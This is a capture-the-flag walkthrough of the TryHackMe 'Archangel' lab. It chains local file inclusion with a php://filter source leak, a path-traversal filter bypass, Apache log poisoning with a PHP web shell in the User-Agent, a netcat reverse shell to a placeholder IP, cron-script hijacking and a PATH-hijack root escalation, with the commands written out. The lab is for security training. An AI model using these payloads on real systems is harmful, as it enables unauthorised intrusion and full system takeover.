 
2025-02-15 18:31

Source: #Boot2root #tryhackme 
### Recon

Rustscan shows a ssh (22) and http (80) port open 

find the hostname using the command below 
```sh
curl -s 10.10.93.69 | grep ".thm"
```

add the newly found host to `etc/hosts`
```sh
echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
```
### Exploiting LFI 

dirsearch finds a `robots.txt`, the `robots.txt` tells us that `test.php` is disallowed for robots to crawl

On `test.php` page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter `?view=/var/www/html/development_testing/mrrobot.php` gets added to the URL. The entire path of the page `mrrobot.php` is provided over here which appears to be a bit odd because normally relative paths can be used.

Unfortunately, it seems we can’t read the code in `test.php`, probably due to a protection in the script.

However, if we try to include other files, e.g. `/etc/passwd`, we will get an error saying: ‘Sorry, That's not allowed’. To understand the code logic that filters out certain inputs, we can use PHP wrappers to include the source code of the page as base64 encoded text, then decode it. Info on PHP wrappers that can be used for LFI/RFI [https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), [PayloadsAllTheThings/File Inclusion at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)

syntax
```sh
http://***DOMAIN***.thm/***PAGE***?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/***PAGE***
```

[[curl]]
```sh
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

above URL returns a base64 encoded string, decoding the string reveals code of `test.php`

The code is checking that the 2 below conditions are met about the injected content:

- it should not contain `../..`
- it should contain `/var/www/html/development_testing`

We can bypass the path traversal protection by replacing `../..` with `.././..`, as follows:

```sh
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log
```

From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

We’ll now poison the apache2 log file by injecting a PHP payload in the user-agent string as follows
Now, let’s download a PHP reverse shell. Start by hosting it locally (`python3 -m http.server`) and download it by sending the following request in BurpSuite Repeater

1. Add the following code somewhere in the `User-Agent` header value:
    
    ```html
    <?php system($_GET['cmd']); ?>
    ```
    
2. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file.

When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it. Therefore, you need to send the same request again so that the output written previous can now be viewed.

start of the malicious burp request looks 
```
GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
```
remember to url encode the revshell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f`

call the reverse shell on the server by browsing `http://mafialive.thm/rev.php` We now have a reverse shell:
```sh
rlwrap nc -nlvp 4444
```

### Horizontal Privilege Escalation

searching the machine doesn't reveal anything good, so search for cronjobs using `cat /etc/crontab`

Here, we can see that a shell script named as `helloworld.sh` in the `/opt` directory is being executed as user archangel. We can check the permissions of that file and try to use it to gain access to the system as user archangel.

```shell
www-data@ubuntu:/home/archangel/myfiles$ cat helloworld.sh
cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

From the output, we can see that all the `rwx` permissions are given to others. So, we can edit this file, add a payload in the bash script to create a reverse shell as user archangel. For this we can again use the same payload but change the port number

```shell
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4445 >/tmp/f" > /opt/helloworld.sh
```
### Privesc

The secret directory contains an interesting `backup` script that has the `SETUID` bit set. Using `strings`, we can see that the `cp` command is called to copy files:

The command `cp` is being called but without its full path being mentioned. So, we can create a fake `cp` executable in and prepend its location to `$PATH`. So, whenever `cp` is called our malicious binary gets executed instead of the original `cp` command

```
archangel@ubuntu:~/secret$ cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
archangel@ubuntu:~/secret$ chmod +x cp
archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH
```

when we will execute the script, it will use our own `cp` command, which will execute a root shell

#### Alternative

1. Create a fake `cp` file in `/tmp` directory and add the following code to it.
    
    ```shell
$ cd /tmp
$ touch cp
$ echo "/bin/bash -p" > cp
$ cat cp
$ chmod 777 cp
    ```
    
So, whenever the `cp` command is called `/bin/bash` would get executed with the permission of the effective user (in case of SUID binary, it would be `root`).
    
2. Prepend `/tmp` to `$PATH`
    
   ```shell
archangel@ubuntu:~/secret$ $PATH            
archangel@ubuntu:~/secret$ export PATH=/tmp:$PATH
   ```

execute `./backup`
### References
[TryHackMe | Cyber Security Training](https://tryhackme.com/room/archangel)

walkthrough

[Writeups/TryHackMe/Easy/archangel/archangel.md at master · 0xNirvana/Writeups · GitHub](https://github.com/0xNirvana/Writeups/blob/master/TryHackMe/Easy/archangel/archangel.md)
[TryHackMe-Archangel - aldeid](https://www.aldeid.com/wiki/TryHackMe-Archangel)
[Archangel - Write-up - TryHackMe | Rawsec](https://blog.raw.pm/en/TryHackMe-Archangel-write-up/)
[TryHackMe: Archangel Writeup. https://tryhackme.com/room/archangel | by ALIEN0X | Medium](https://medium.com/@infohellohumans/tryhackme-archangel-writeup-2807313edfb7)
[TryHackMe – Archangel walkthrough - narancs's blog](https://narancsblog.com/thm/easy/archangel/)